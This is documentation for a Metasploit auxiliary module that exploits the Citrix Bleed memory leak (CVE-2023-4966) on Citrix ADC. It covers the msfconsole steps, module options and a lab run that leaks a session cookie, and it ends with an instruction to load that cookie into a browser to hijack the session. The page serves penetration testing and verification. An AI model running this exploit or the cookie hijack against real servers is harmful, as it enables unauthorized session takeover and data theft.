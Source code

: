 ## Vulnerable Application

This module scans for a vulnerability that allows an remote, unauthenticated attacker to leak memory for a target Citrix
ADC server. The leaked memory is then scanned for session cookies which can be hijacked if found.

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/citrix_bleed_cve_2023_4966`
4. Do: `set RHOSTS`
5. Do: `run`

## Options

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Citrix ADC 13.1-48.47

NetScaler VPX instance for VMware ESX from `NSVPX-ESX-13.1-48.47_nc_64`.

```
msf6 auxiliary(scanner/http/citrix_bleed_cve_2023_4966) > show options 

Module options (auxiliary/scanner/http/citrix_bleed_cve_2023_4966):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    20               yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/citrix_bleed_cve_2023_4966) > run

[+] Cookie: NSC_AAAC=fdac8de9ed76012688b4d33e9d5f74b00c3a0818745525d5f4f58455e445a4a42 Username: metasploit
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/citrix_bleed_cve_2023_4966) >
```

Once the cookie has been leaked, load it into the browser using the developer tools.
